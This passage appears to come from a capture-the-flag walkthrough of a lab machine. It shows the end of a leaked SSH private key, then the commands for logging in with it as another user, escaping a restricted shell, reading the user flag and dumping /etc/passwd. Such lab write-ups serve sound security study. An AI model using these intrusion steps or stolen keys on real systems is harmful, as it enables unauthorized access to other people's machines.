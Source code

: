 KEELQhQWkn5XZdAAABAQDolvhZ9U7rex8JR1Okl7Et0Bs0MPQkXjjhZ4jRlwIPV1IhBhoW
2MiuTZadfJrKbFw9bey2uf5dhD/x/l5SvqZaGGQJ9HOQ3Epoh8ZW6o63ppakxQD0hr6OKh
tvIkuontusxtjnnfRAKtzLUnUcurFicmiyncdNwj8GvrYAfb/iL/dGKyN7sN1YNusosSOK
PmCaZ17wdg8/CYwBa4JgDAKmqk94YoculGAgOi1kdK9S2tjF3c3a1hQLauWE6oBPQ/v5zu
nJUtrMu7pFzo0yNxlb3+MK8DgQIbYJluP/ROXzd/017lvRvQacyPfGH9OzKOIGscl+X3ut
cg+5aWfrqWsxAAAAEnN1YmhvQGRqYW5nby1tYW5nbw==
-----END OPENSSH PRIVATE KEY-----
```

// on the Attacker machine create id_rsa file Copy and past it

```nano id_rsa```

chnage permission

```chmod 600 id_rsa```

```ssh baroi@192.168.22.134 -i id_rsa```

Escaping Rbash

```bash --noprofile```

exporting path variable

```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games```

// Got baroi ssh shell $$$$

```
baroi@django-mango:~$ cat user.txt
89d0aae789b516428d55d4b07f21d33e

```

```cat /etc/passwd```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
